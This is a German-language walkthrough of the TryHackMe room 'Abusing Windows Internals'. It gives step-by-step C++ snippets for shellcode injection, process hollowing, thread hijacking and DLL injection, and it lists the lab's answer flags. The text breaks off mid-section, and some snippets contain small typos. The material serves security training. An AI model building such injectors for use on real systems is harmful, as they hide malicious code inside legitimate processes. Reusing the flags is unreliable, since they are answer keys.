


# Abusing Windows Internals
Dies ist eine einführung zu dem TryHackMe Raum: [Abusing Windows Internals](https://tryhackme.com/r/room/abusingwindowsinternals)

# Task 1 - Introduction (Einführung)
Windows-Internals sind entscheidend für die Funktionsweise des Windows-Betriebssystems. Dies macht sie zu einem lukrativen Angriffsziel für bösartige Zwecke. Windows-Internals können verwendet werden, um Code zu verbergen und auszuführen, Erkennungen zu umgehen und mit anderen Techniken oder Exploits zu verknüpfen.

Der Begriff Windows-Internals umfasst jede Komponente, die auf der Backend-Seite des Windows-Betriebssystems gefunden werden kann. Dazu gehören Prozesse, Dateiformate, COM (Component Object Model), Taskplanung, I/O-System usw. Dieser Raum wird sich darauf konzentrieren, Prozesse und ihre Komponenten, DLLs (Dynamic Link Libraries) sowie das PE (Portable Executable) Format zu missbrauchen und auszunutzen.

### Lernziele:

- Verständnis dafür entwickeln, wie interne Komponenten angreifbar sind
- Erlernen, wie man Schwachstellen in Windows-Internals ausnutzt und missbraucht
- Verständnis für Maßnahmen zur Minderung und Erkennung dieser Techniken entwickeln
- Anwendung der erlernten Techniken auf eine Fallstudie aus der realen Welt

Bevor Sie mit diesem Raum beginnen, machen Sie sich mit der grundlegenden Nutzung und Funktionalität von Windows vertraut. Es ist empfelendwert, den Raum zu [Windows-Internals](https://tryhackme.com/r/room/windowsinternals) zu absolvieren. Grundlegende Programmierkenntnisse in C++ und PowerShell werden ebenfalls empfohlen, sind aber nicht zwingend erforderlich.

# Task 2 - Prozesse ausnutzen
Anwendungen, die auf deinem Betriebssystem laufen, können einen oder mehrere Prozesse enthalten. Prozesse verwalten und repräsentieren ein Programm, das ausgeführt wird.

Prozesse haben viele weitere Unterkomponenten und interagieren direkt mit dem Speicher oder dem virtuellen Speicher, was sie zu einem idealen Ziel macht. Die folgende Tabelle beschreibt jede kritische Komponente von Prozessen und deren Zweck.
| Prozesskomponente                | Zweck                                                                 |
|----------------------------------|----------------------------------------------------------------------|
| Privater virtueller Adressraum   | Virtuelle Speicheradressen, die dem Prozess zugewiesen sind.         |
| Ausführbares Programm            | Definiert Code und Daten, die im virtuellen Adressraum gespeichert sind. |
| Offene Handles                   | Definiert Handles zu Systemressourcen, auf die der Prozess zugreifen kann. |
| Sicherheitskontext               | Das Zugriffstoken definiert den Benutzer, Sicherheitsgruppen, Berechtigungen und andere Sicherheitsinformationen. |
| Prozess-ID                       | Eindeutige numerische Kennung des Prozesses.                          |
| Threads                          | Abschnitt eines Prozesses, der zur Ausführung eingeplant ist.        |

Für weitere Informationen über Prozesse, sieh dir den [Windows Internals](https://tryhackme.com/r/room/windowsinternals) Raum an.

Prozessinjektion wird häufig als Oberbegriff verwendet, um das Einschleusen von schädlichem Code in einen Prozess durch legitime Funktionalitäten oder Komponenten zu beschreiben. In diesem Raum konzentrieren wir uns auf vier verschiedene Arten der Prozessinjektion, wie unten beschrieben.
| Injektionstyp                     | Funktion                                                                                   |
|-----------------------------------|--------------------------------------------------------------------------------------------|
| Process Hollowing                 | Code in einen angehaltenen und "ausgehöhlten" Zielprozess einschleusen                      |
| Thread Execution Hijacking        | Code in einen angehaltenen Zielthread einschleusen                                          |
| Dynamic-link Library Injection    | Eine DLL in den Prozessspeicher einschleusen                                                 |
| Portable Executable Injection     | Ein PE-Image selbst in einen Zielprozess einschleusen, das auf eine schädliche Funktion zeigt |

Es gibt viele andere Formen der Prozessinjektion, die von MITRE im Rahmen der T1055 beschrieben werden. [MITRE T1055](https://attack.mitre.org/techniques/T1055/)

Auf der grundlegendsten Ebene nimmt die Prozessinjektion die Form der Shellcode-Injektion an.

Auf einer höheren Ebene kann die Shellcode-Injektion in vier Schritte unterteilt werden:

1. Öffnen eines Zielprozesses mit allen Zugriffsrechten.
2. Allozieren von Speicher im Zielprozess für den Shellcode.
3. Schreiben des Shellcodes in den allozierten Speicher im Zielprozess.
4. Ausführen des Shellcodes mithilfe eines Remote-Threads.

Die Schritte können auch grafisch dargestellt werden, um zu zeigen, wie Windows-API-Aufrufe mit dem Prozessspeicher interagieren.



# Erklärung der Shellcode-Injektionsgrafik

Diese Grafik zeigt die Schritte der Shellcode-Injektion in einem Zielprozess durch einen bösartigen Prozess und wie Windows-API-Aufrufe dabei interagieren. Hier ist eine Erklärung der einzelnen Schritte und Komponenten:

1. **OpenProcess**:
   - Der bösartige Prozess (unten links) verwendet die API-Funktion `OpenProcess`, um den Zielprozess (oben links) mit allen erforderlichen Zugriffsrechten zu öffnen. Dies ermöglicht dem bösartigen Prozess, auf den Speicher des Zielprozesses zuzugreifen.

2. **VirtualAlloc**:
   - Der bösartige Prozess verwendet die API-Funktion `VirtualAlloc`, um einen Speicherbereich im Zielprozess zu allozieren. Dieser Schritt bereitet den Speicher vor, in den der Shellcode geschrieben werden soll.

3. **WriteProcessMemory**:
   - Der bösartige Prozess verwendet die API-Funktion `WriteProcessMemory`, um den Shellcode in den zuvor allokierten Speicherbereich im Zielprozess zu schreiben.

4. **CreateRemoteThread**:
   - Der bösartige Prozess verwendet die API-Funktion `CreateRemoteThread`, um einen neuen Thread im Zielprozess zu erstellen, der den Shellcode ausführt. Dies ermöglicht es dem bösartigen Code, innerhalb des Kontextes des Zielprozesses ausgeführt zu werden.

## Prozessspeicherregionen

- Die verschiedenen Speicherregionen des Zielprozesses sind in blau dargestellt, einschließlich DLLs, Register, Prozess-Heap, Thread-Stack und allgemeine Prozessspeicherregionen.
- Die "Malicious Memory Region" (bösartige Speicherregion) ist der Bereich, in dem der Shellcode eingefügt und ausgeführt wird.

Durch diese Schritte wird der Shellcode in den Speicher des Zielprozesses injiziert und ausgeführt, was dem Angreifer die Möglichkeit gibt, Kontrolle über den Zielprozess zu erlangen und bösartige Aktivitäten durchzuführen.

Im ersten Schritt der Shellcode-Injektion müssen wir einen Zielprozess mit speziellen Parametern öffnen. `OpenProcess` wird verwendet, um den Zielprozess zu öffnen, der über die Befehlszeile angegeben wird.
```C++
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```


Im zweiten Schritt müssen wir Speicher in der Größe des Shellcodes allozieren. Die Speicherallokation wird mit `VirtualAllocEx` durchgeführt. Innerhalb des Aufrufs wird der Parameter `dwSize` mit der Funktion sizeof definiert, um die Anzahl der Bytes des Shellcodes zu erhalten, die allokiert werden sollen.
```C++
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```


Im dritten Schritt können wir nun den allokierten Speicherbereich verwenden, um unseren Shellcode zu schreiben. `WriteProcessMemory` wird häufig verwendet, um in Speicherbereiche zu schreiben.
```C++
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```


Im vierten Schritt haben wir nun die Kontrolle über den Prozess, und unser schädlicher Code ist im Speicher geschrieben. Um den im Speicher befindlichen Shellcode auszuführen, können wir `CreateRemoteThread` verwenden; Threads steuern die Ausführung von Prozessen.
```C++
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

Wir können diese Schritte zusammenfassen, um einen einfachen Prozessinjektor zu erstellen. Verwenden Sie den bereitgestellten C++ Injektor und experimentieren Sie mit der Prozessinjektion.

Shellcode-Injektion ist die grundlegendste Form der Prozessinjektion; in der nächsten Aufgabe werden wir untersuchen, wie wir diese Schritte für das Process Hollowing modifizieren und anpassen können.

## Fragen:

Identifizieren Sie eine PID eines Prozesses, der als THM-Attacker ausgeführt wird, um diesen zu zielen. Sobald die PID identifiziert ist, geben Sie die PID als Argument an, um shellcode-injector.exe im Verzeichnis Injectors auf dem Desktop auszuführen.
```
Starte den Task Manager und gehe zu den Reiter Details und suche dort nach einem Prozess, als beispiel nutzte ich den Explorer.exe prozess. syntax shellcode-injector.exe <PID>
```

Welche Flagge wird nach dem Einspritzen des Shellcodes erhalten?
```
THM{1nj3c710n_15_fun!}
```

# Task 3 - Erweiterung des Prozessmissbrauchs
Im vorherigen Task haben wir besprochen, wie wir Shellcode-Injection verwenden können, um bösartigen Code in einen legitimen Prozess einzuschleusen. In diesem Task werden wir Process Hollowing behandeln. Ähnlich wie bei der Shellcode-Injection bietet diese Technik die Möglichkeit, eine komplette bösartige Datei in einen Prozess einzuschleusen. Dies wird erreicht, indem der Prozess „ausgehöhlt“ oder entmappt wird und spezifische PE (Portable Executable) Daten und Abschnitte in den Prozess injiziert werden.

Auf hoher Ebene kann Process Hollowing in sechs Schritte unterteilt werden:

1. Einen Zielprozess im angehaltenen Zustand erstellen.
2. Ein bösartiges Image öffnen.
3. Legitimen Code aus dem Prozessspeicher entmapen.
4. Speicherbereiche für den bösartigen Code zuweisen und jeden Abschnitt in den Adressraum schreiben.
5. Einen Einstiegspunkt für den bösartigen Code festlegen.
6. Den Zielprozess aus dem angehaltenen Zustand herausnehmen.

Die Schritte können auch grafisch dargestellt werden, um zu zeigen, wie Windows API-Aufrufe mit dem Prozessspeicher interagieren.


1. **Suspendierter Prozess**: Dies ist der Ausgangspunkt. Ein laufendes Programm wird vorübergehend gestoppt.

2. **DLL-Injektion**: Der Angreifer injiziert eine DLL (Dynamic Link Library) in den Adressraum eines anderen Prozesses. Dies ermöglicht es, eigenen Code im Kontext des Prozesses auszuführen. Die DLL-Injektion ist im Bereich "DLLS" dargestellt.

3. **Prozess-Heap-Exploitation**: Hier manipuliert der Angreifer den Prozess-Heap, um Speicherfehler auszunutzen und bösartigen Code einzufügen. Dieser Schritt ist im Bereich "Process Heap" zu finden.

4. **Thread-Stack-Manipulation**: Durch Manipulation des Thread-Stacks kann der Angreifer den Programmfluss ändern und eigenen Code ausführen. Dies ist im Bereich "Thread Stack" dargestellt.

5. **Memory Region Hollowing**: Hierbei wird der Speicherbereich eines Prozesses geleert und mit bösartigem Code überschrieben. Du findest diesen Schritt im Bereich "Hollowed Memory".

6. **Virtual Memory und Schreiben in den Speicher**: Der Angreifer reserviert virtuellen Speicher und schreibt bösartigen Code hinein. Dies ist im Bereich "VirtualAlloc" zu sehen.

7. **Setzen des Thread-Kontexts**: Schließlich wird der Thread-Kontext so geändert, dass der bösartige Code ausgeführt wird. Dieser Schritt ist im Bereich "SetThreadContext" dargestellt.

Wir werden einen grundlegenden Process Hollowing Injector aufschlüsseln, um jeden der Schritte zu identifizieren und unten ausführlicher zu erklären.

Im ersten Schritt des Process Hollowing müssen wir einen Zielprozess im angehaltenen Zustand erstellen, indem wir `CreateProcessA` verwenden. Um die erforderlichen Parameter für den API-Aufruf zu erhalten, können wir die Strukturen `STARTUPINFOA` und `PROCESS_INFORMATION` verwenden.

```C++
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
	(LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
	NULL,
	NULL,
	NULL,
	TRUE, // Handles are inherited from the calling process
	CREATE_SUSPENDED, // New process is suspended
	NULL,
	NULL,
	target_si, // pointer to startup info
	target_pi) == 0) { // pointer to process information
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;
```

Im zweiten Schritt müssen wir ein bösartiges Image öffnen, das injiziert werden soll. Dieser Prozess ist in drei Schritte unterteilt, beginnend mit der Verwendung von CreateFileA, um ein Handle für das bösartige Image zu erhalten.
```C++
HANDLE hMaliciousCode = CreateFileA(
	(LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
	GENERIC_READ, // Read-only access
	FILE_SHARE_READ, // Read-only share mode
	NULL,
	OPEN_EXISTING, // Instructed to open a file or device if it exists
	NULL,
	NULL
);
```

Sobald ein Handle für das bösartige Image erhalten wurde, muss Speicher für den lokalen Prozess mit `VirtualAlloc` zugewiesen werden. `GetFileSize` wird ebenfalls verwendet, um die Größe des bösartigen Images für `dwSize` abzurufen.
```C++
DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```

Nun, da Speicher für den lokalen Prozess zugewiesen wurde, muss dieser beschrieben werden. Mit den Informationen aus den vorherigen Schritten können wir `ReadFile` verwenden, um in den lokalen Prozessspeicher zu schreiben.
```C++
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);
```

Im dritten Schritt muss der Prozess durch Entmapen des Speichers "ausgehöhlt" werden. Bevor das Entmapen erfolgen kann, müssen wir die Parameter des API-Aufrufs identifizieren. Wir müssen die Speicherposition des Prozesses und den Einstiegspunkt identifizieren. Die CPU-Register `EAX` (Einstiegspunkt) und `EBX` (PEB-Position) enthalten die benötigten Informationen, die durch Verwendung von `GetThreadContext` gefunden werden können. Sobald beide Register gefunden sind, wird `ReadProcessMemory` verwendet, um die Basisadresse aus `EBX` mit einem Offset (`0x8`), der aus der Untersuchung des PEB stammt, zu erhalten.
```C++
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
	target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
	(PVOID)(c.Ebx + 8), // Pointer to the base address
	&pTargetImageBaseAddress, // Store target base address 
	sizeof(PVOID), // Bytes to read 
	0 // Number of bytes out
);
```

Nachdem die Basisadresse gespeichert ist, können wir mit dem Entmapen des Speichers beginnen. Wir können `ZwUnmapViewOfSection` verwenden, das aus ntdll.dll importiert wird, um Speicher vom Zielprozess freizugeben.
```C++
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
	hNtdllBase, // Handle of ntdll
	"ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress // Base address of the process
);
```

Im vierten Schritt müssen wir damit beginnen, Speicher im "geleerten" Prozess zuzuweisen. Ähnlich wie in Schritt zwei können wir `VirtualAlloc` verwenden, um Speicher zuzuweisen. Diesmal müssen wir die Größe des Images aus den Dateiköpfen erhalten. Mit `e_lfanew` kann die Anzahl der Bytes vom DOS-Header zum PE-Header identifiziert werden. Sobald beim PE-Header angekommen, können wir die `SizeOfImage` aus dem Optional Header erhalten.
```C++
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	sizeOfMaliciousImage, // Byte size obtained from optional header
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);
```

Nachdem der Speicher zugewiesen ist, können wir die bösartige Datei in den Speicher schreiben. Da wir eine Datei schreiben, müssen wir zuerst die PE-Header und dann die PE-Sektionen schreiben. Um die PE-Header zu schreiben, können wir `WriteProcessMemory` verwenden und die Größe der Header verwenden, um festzulegen, wo wir aufhören müssen.
```C++
if (!WriteProcessMemory(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	pMaliciousImage, // Local memory where the malicious file resides
	pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers 
	NULL
)) {
	cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
}
```

Jetzt müssen wir jede Sektion schreiben. Um die Anzahl der Sektionen zu finden, können wir `NumberOfSections` aus den NT-Headern verwenden. Wir können eine Schleife durch `e_lfanew` und die Größe des aktuellen Headers durchlaufen, um jede Sektion zu schreiben.
```C++
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
	PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

	WriteProcessMemory(
		target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
		(PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section 
		(PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
		pSectionHeader->SizeOfRawData, // Byte size of current section
		NULL
	);
}
```

Es ist auch möglich, Relokationstabellen zu verwenden, um die Datei in den Ziel-Speicher zu schreiben. Dies wird im Task 6 genauer erläutert.

Im fünften Schritt können wir `SetThreadContext` verwenden, um `EAX` so zu ändern, dass es auf den Einstiegspunkt zeigt.
```C++
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to the stored context structure
);
```

Im sechsten Schritt müssen wir den Prozess aus dem angehaltenen Zustand herausnehmen, indem wir ResumeThread verwenden.
```C++
ResumeThread(
	target_pi->hThread // Handle to the thread obtained from the PROCESS_INFORMATION structure
);
```
Wir können diese Schritte zusammenstellen, um einen Prozess-Hollowing-Injector zu erstellen. Verwenden Sie den bereitgestellten C++-Injector und experimentieren Sie mit Process Hollowing.

## Fragen:
Identifizieren Sie eine PID eines als THM-Attacker ausgeführten Prozesses, den Sie als Ziel verwenden möchten. Geben Sie die PID und den ausführbaren Dateinamen als Argumente an, um hollowing-injector.exe auszuführen, das sich im Verzeichnis "injectors" auf dem Desktop befindet:
```
Starte den Task Manager und gehe zu den Reiter Details und suche dort nach einem Prozess, als beispiel nutzte ich den Explorer.exe prozess. syntax hollowing-injector.exe <PID>
```

Welche Flagge wird nach dem Ausführen von Hollowing und dem Einspritzen des Shellcodes erhalten?
```
THM{7h3r35_n07h1n6_h3r3}
```

# Task 4 - Missbrauch von Prozesskomponenten
Auf einer höheren Ebene kann Thread-Hijacking in elf Schritte unterteilt werden:

1. Lokalisieren und öffnen Sie einen Zielprozess zur Steuerung.
2. Allokieren Sie einen Speicherbereich für den bösartigen Code.
3. Schreiben Sie den bösartigen Code in den allokierten Speicher.
4. Identifizieren Sie die Thread-ID des Zielthreads, den Sie übernehmen möchten.
5. Öffnen Sie den Zielthread.
6. Halten Sie den Zielthread an.
7. Erhalten Sie den Thread-Kontext.
8. Aktualisieren Sie den Befehlszeiger (Instruction Pointer) auf den bösartigen Code.
9. Aktualisieren Sie den Thread-Kontext des Zielthreads.
10. Setzen Sie den übernommenen Thread fort.

Wir werden ein einfaches Thread-Hijacking-Skript aufschlüsseln, um jeden der Schritte zu identifizieren und unten ausführlicher zu erklären.

Die ersten drei Schritte in dieser Technik folgen denselben gängigen Schritten wie bei der normalen Prozesseinspritzung. Diese werden nicht erklärt, stattdessen finden Sie den dokumentierten Quellcode unten.
```C++
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

Nachdem die anfänglichen Schritte erledigt sind und unser Shellcode im Speicher geschrieben ist, können wir zum vierten Schritt übergehen. Im vierten Schritt müssen wir damit beginnen, den Thread des Prozesses zu hijacken, indem wir die Thread-ID identifizieren. Um die Thread-ID zu identifizieren, müssen wir eine Kombination von Windows-API-Aufrufen verwenden: `CreateToolhelp32Snapshot()`, `Thread32First()` und `Thread32Next()`. Diese API-Aufrufe durchlaufen gemeinsam eine Momentaufnahme eines Prozesses und ermöglichen es, Prozessinformationen aufzulisten.
```C++
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {
```

Im fünften Schritt haben wir alle erforderlichen Informationen im Strukturzeiger gesammelt und können den Zielthread öffnen. Um den Thread zu öffnen, verwenden wir `OpenThread` mit dem Strukturzeiger `THREADENTRY32`.
```
if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}
	}

```

Im sechsten Schritt müssen wir den geöffneten Zielthread anhalten. Dazu können wir die Funktion `SuspendThread` verwenden.
```C++
SuspendThread(hThread);
```

Im siebten Schritt müssen wir den Thread-Kontext erhalten, um ihn in den kommenden API-Aufrufen zu verwenden. Dies kann mit der Funktion `GetThreadContext` durch Speichern eines Zeigers erreicht werden.
```C++
CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);
```

Im achten Schritt müssen wir den RIP (Instruction Pointer Register) überschreiben, um ihn auf unseren bösartigen Speicherbereich zu setzen. Falls Sie noch nicht mit CPU-Registern vertraut sind, ist RIP ein x64-Register, das die nächste Codeanweisung bestimmt und im Wesentlichen den Ablauf einer Anwendung im Speicher kontrolliert. Um das Register zu überschreiben, können wir den Thread-Kontext für RIP aktualisieren.
```C++
context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation
```

Im neunten Schritt wird der Kontext aktualisiert und muss auf den aktuellen Thread-Kontext gesetzt werden. Dies kann einfach mit `SetThreadContext` und dem Zeiger auf den Kontext durchgeführt werden.
```C++
SetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to the context structure
);
```

Im letzten Schritt können wir nun den Zielthread aus dem angehaltenen Zustand herausnehmen. Hierfür verwenden wir die Funktion `ResumeThread`.
```C++
ResumeThread(
	hThread // Handle for the thread
);
```
Wir können diese Schritte zusammenstellen, um einen Prozessinjektor mittels Thread-Hijacking zu erstellen. Verwenden Sie den bereitgestellten C++-Injector und experimentieren Sie mit Thread-Hijacking.

## Fragen:

Identifizieren Sie die PID eines Prozesses, der unter dem Namen THM-Attacker läuft und den Sie als Ziel verwenden möchten. Übergeben Sie diese PID als Argument, um thread-injector.exe auszuführen, das sich im Verzeichnis "Injectors" auf dem Desktop befindet.
```
Starte den Task Manager und gehe zu den Reiter Details und suche dort nach einem Prozess, als beispiel nutzte ich den Explorer.exe prozess. syntax thread-injector.exe <PID>
```

Welche Flagge wird nach dem Hijacking des Threads erhalten?
```
THM{w34p0n1z3d_53w1n6}
```

# Task 5 - DLLs ausnutzung
Auf einer höheren Ebene kann DLL-Injektion in sechs Schritte unterteilt werden:

1. Finden Sie einen Zielprozess zur Injektion.
2. Öffnen Sie den Zielprozess.
3. Allokieren Sie einen Speicherbereich für die bösartige DLL.
4. Schreiben Sie die bösartige DLL in den allokierten Speicher.
5. Laden und führen Sie die bösartige DLL aus.

Wir werden einen einfachen DLL-Injektor aufschlüsseln, um jeden der Schritte zu identifizieren und im Folgenden ausführlicher zu erklären.

Im ersten Schritt der DLL-Injektion müssen wir einen Ziel-Thread finden. Ein Thread kann aus einem Prozess mithilfe einer Kombination von drei Windows-API-Aufrufen gefunden werden: `CreateToolhelp32Snapshot()`, `Process32First()` und `Process32Next()`.
```C++
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
			TH32CS_SNAPPROCESS, // Include all processes residing on the system
			0 // Indicates the current process
		);
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry // Pointer to the PROCESSENTRY32 structure
				)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
									entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
									processName // Supplied process name
								)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
							hSnapshot, // Handle of the snapshot
							&entry
						)); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

Im zweiten Schritt, nachdem die PID ermittelt wurde, müssen wir den Prozess öffnen. Dies kann mit einer Vielzahl von Windows-API-Aufrufen erreicht werden: `GetModuleHandle`, `GetProcAddress` oder `OpenProcess`.
```C++
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
```

Im dritten Schritt muss Speicher für die bereitgestellte bösartige DLL allokiert werden. Wie bei den meisten Injektoren kann dies mit `VirtualAllocEx` erreicht werden.
```C++
LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

Im vierten Schritt müssen wir die bösartige DLL in den allokierten Speicherbereich schreiben. Dazu können wir `WriteProcessMemory` verwenden, um in die allokierte Region zu schreiben.
```C++
WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);
```

Im fünften Schritt ist unsere bösartige DLL in den Speicher geschrieben, und alles, was wir tun müssen, ist sie zu laden und auszuführen. Um die DLL zu laden, müssen wir `LoadLibrary` verwenden, importiert aus `kernel32`. Sobald sie geladen ist, kann `CreateRemoteThread` verwendet werden, um den Speicher mithilfe von `LoadLibrary` als Startfunktion auszuführen.
```C++
